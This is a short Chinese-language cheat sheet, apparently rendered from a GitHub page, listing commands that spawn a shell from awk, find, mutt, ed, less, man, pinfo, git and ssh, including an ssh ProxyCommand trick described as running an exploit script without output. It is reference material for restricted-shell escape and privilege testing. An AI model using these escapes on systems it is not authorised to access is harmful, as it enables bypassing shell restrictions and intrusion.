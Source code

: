 ### awk
awk 的 system 关键字可以执行系统命令。BEGIN 是 awk 的特殊模式，用于在处理文本之前执行一次性的初始化操作。
```bash
awk 'BEGIN {system("/bin/sh")}'
```

### find
find 的 exec 参数可以执行系统命令，下面的命令执行后，一旦匹配到 test，则会进入一次 sh 
```bash
find / -name test -exec /bin/sh \;
find / -name test -exec /bin/whoami --help \;
```

### mutt
```bash
mutt
!
/bin/sh
```

### ed
```bash
└─$ ed
!'/bin/sh'
$ 
```
### more
```bash
echo "111" | less
!'/bin/sh'
```

### man
```bash
man ls
!'/bin/sh'
```

### pinfo
```bash
pinfo ls
!
ls /etc
```

### ssh
ssh 远程连接可以直接指定 shell
```bash
ssh username@IP -t '/bin/sh'
ssh username@IP -t "bash -noprifile"
```
假设当前目录存放了一个利用脚本 test.sh ，使用下面的命令可以无回显执行这个脚本：
```bash
ssh -o ProxyCommand="sh -c ./test.sh" 127.0.0.1
```
### git
```bash
git help status
!/bin/sh
```
